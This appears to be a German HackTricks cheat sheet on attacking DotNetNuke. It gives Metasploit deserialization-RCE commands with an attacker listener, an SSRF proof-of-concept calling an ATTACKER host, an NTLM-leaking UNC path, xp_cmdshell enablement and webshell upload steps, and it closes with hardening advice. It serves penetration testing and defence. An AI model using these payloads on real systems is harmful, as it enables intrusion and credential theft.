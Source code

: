 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

Wenn Sie sich als **Administrator** in DNN anmelden, ist es einfach, **RCE** zu erhalten. In den letzten Jahren wurden jedoch eine Reihe von *unauthentifizierten* und *post-auth* Techniken veröffentlicht. Das folgende Cheat-Sheet sammelt die nützlichsten Primitiven für sowohl offensive als auch defensive Arbeiten.

---
## Versions- & Umgebungsenumeration

* Überprüfen Sie den *X-DNN* HTTP-Antwortheader – er gibt normalerweise die genaue Plattformversion an.
* Der Installationsassistent gibt die Version in `/Install/Install.aspx?mode=install` preis (zugänglich bei sehr alten Installationen).
* `/API/PersonaBar/GetStatus` (9.x) gibt ein JSON-Blob zurück, das `"dnnVersion"` für Benutzer mit niedrigen Berechtigungen enthält.
* Typische Cookies, die Sie in einer Live-Instanz sehen werden:
* `.DOTNETNUKE` – ASP.NET Forms-Authentifizierungsticket.
* `DNNPersonalization` – enthält XML/serialisierte Benutzerdaten (alte Versionen – siehe RCE unten).

---
## Unauthentifizierte Ausnutzung

### 1. Cookie-Deserialisierung RCE  (CVE-2017-9822 & Folgemaßnahmen)
*Betroffene Versionen ≤ 9.3.0-RC*

`DNNPersonalization` wird bei jeder Anfrage deserialisiert, wenn der integrierte 404-Handler aktiviert ist. Durch manipuliertes XML kann daher zu beliebigen Gadget-Ketten und Codeausführung führen.
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
Das Modul wählt automatisch den richtigen Pfad für gepatchte, aber weiterhin anfällige Versionen (CVE-2018-15811/15812/18325/18326). Die Ausnutzung funktioniert **ohne Authentifizierung** bei 7.x–9.1.x und mit einem *verifizierten* Konto mit niedrigen Rechten bei 9.2.x+.

### 2. Server-Side Request Forgery  (CVE-2025-32372)
*Betroffene Versionen < 9.13.8  –  Patch veröffentlicht April 2025*

Ein Umgehen des älteren `DnnImageHandler`-Fixes ermöglicht es einem Angreifer, den Server zu zwingen, **willkürliche GET-Anfragen** auszuführen (semi-blind SSRF). Praktische Auswirkungen:

* Interner Port-Scan / Metadaten-Service-Entdeckung in Cloud-Bereitstellungen.
* Erreichen von Hosts, die sonst durch eine Firewall vom Internet getrennt sind.

Proof-of-Concept (ersetzen Sie `TARGET` & `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
Die Anfrage wird im Hintergrund ausgelöst; überwachen Sie Ihren Listener auf Rückrufe.

### 3. NTLM-Hash-Exposition über UNC-Umleitung  (CVE-2025-52488)
*Betroffene Versionen 6.0.0 – 9.x (< 10.0.1)*

Spezial angefertigte Inhalte können DNN dazu bringen, zu versuchen, eine Ressource über einen **UNC-Pfad** wie `\\attacker\share\img.png` abzurufen. Windows führt bereitwillig die NTLM-Verhandlung durch und leckt die Serverkonto-Hashes an den Angreifer. Aktualisieren Sie auf **10.0.1** oder deaktivieren Sie ausgehendes SMB an der Firewall.

### 4. IP-Filter-Umgehung  (CVE-2025-52487)
Wenn Administratoren auf *Host/IP-Filter* zum Schutz des Admin-Portals angewiesen sind, seien Sie sich bewusst, dass Versionen vor **10.0.1** durch Manipulation von `X-Forwarded-For` in einem Reverse-Proxy-Szenario umgangen werden können.

---
## Post-Authentifizierung zu RCE

### Über SQL-Konsole
Unter **`Einstellungen → SQL`** ermöglicht ein integriertes Abfragefenster die Ausführung gegen die Site-Datenbank.  Auf Microsoft SQL Server können Sie **`xp_cmdshell`** aktivieren und Befehle ausführen:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### Über ASPX-Webshell-Upload
1. Gehe zu **`Einstellungen → Sicherheit → Mehr → Weitere Sicherheitseinstellungen`**.
2. Füge `aspx` (oder `asp`) zu **Erlaubte Dateierweiterungen** hinzu und **speichere**.
3. Gehe zu **`/admin/file-management`** und lade `shell.aspx` hoch.
4. Rufe es auf unter **`/Portals/0/shell.aspx`**.

---
## Privilegieneskalation unter Windows
Sobald die Codeausführung als **IIS AppPool\<Site>** erreicht ist, gelten gängige Windows-Privilegieneskalationstechniken. Wenn die Box anfällig ist, kannst du Folgendes nutzen:

* **PrintSpoofer** / **SpoolFool**, um *SeImpersonatePrivilege* auszunutzen.
* **Juicy/Sharp Potatoes**, um *Service Accounts* zu entkommen.

---
## Empfehlungen zur Härtung (Blue Team)

* **Upgrade** auf mindestens **9.13.9** (behebt SSRF-Umgehung) oder vorzugsweise **10.0.1** (IP-Filter- & NTLM-Probleme).
* Entferne verbleibende **`InstallWizard.aspx*`**-Dateien nach der Installation.
* Deaktiviere ausgehendes SMB (Ports 445/139).
* Erzwinge starke *Host-Filter* am Edge-Proxy anstelle innerhalb von DNN.
* Blockiere den Zugriff auf `/API/RemoteContentProxy`, wenn nicht verwendet.

## Referenzen

* Metasploit `dnn_cookie_deserialization_rce` Modul-Dokumentation – praktische Details zur nicht authentifizierten RCE (GitHub).
* GitHub-Sicherheitsberatung GHSA-3f7v-qx94-666m – Informationen zur SSRF-Umgehung & Patch-Informationen von 2025.
{{#include ../../banners/hacktricks-training.md}}
